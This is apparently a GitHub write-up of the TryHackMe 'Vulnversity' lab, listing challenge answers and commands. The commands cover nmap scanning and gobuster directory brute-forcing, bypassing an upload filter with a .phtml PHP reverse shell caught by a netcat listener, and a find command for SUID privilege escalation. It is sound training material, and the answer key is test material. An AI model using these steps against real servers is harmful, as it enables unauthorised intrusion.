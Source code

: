 # Vulnversity

Learn about active recon, web app attacks and privilege escalation.

[Vulnversity](https://tryhackme.com/room/vulnversity)

## Summary

1. Use `nmap` to discover hosts and services on a computer network
2. Use `gobuster` to brute force and locate a directory that you can use to upload a shell to.
3. Use `BurpSuite` to discover which filetypes are uploadable
4. `nc`: NetCat, used for opening TCP / UDP connections

## Solutions

1. Deploy Machine

2. `nmap -sV <IPAddress>`

    Discover hosts and services on a computer network

    1. `nmap -sV <IPAddress>`
    2. 6
    3. 3.5.12
    4. 400
    5. DNS (-n tells nmap to not resolve DNS)
    6. Ubuntu
    7. 3333

3. `gobuster dir -u http://<IPAddress>:3333 -w <WordListPath>` locate a directory that you can use to upload a shell to.

    1. `/internal`

4. Upload and execute our payload that will lead to compromising the web server.

   1. `.php`
   2. pass
   3. `.phtml`
      1. In BurpSuite, intercept the target file uploader domain, and in Intruder, load the word list and uncheck encode option
   4. Download and upload the script.
      1. If on mac os, `nc -l <ip> <port>` where `ip` and `port` must match the IP and Port specified in `./php-reverse-shell.phtml`.
   5. `ls -lah /home` -> `bill`
   6. `cat user.txt`

5. Privilege Escalation

   1. `find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null` -> `/bin/systemctl`
   2. this some weird shit i cannot understand yet...

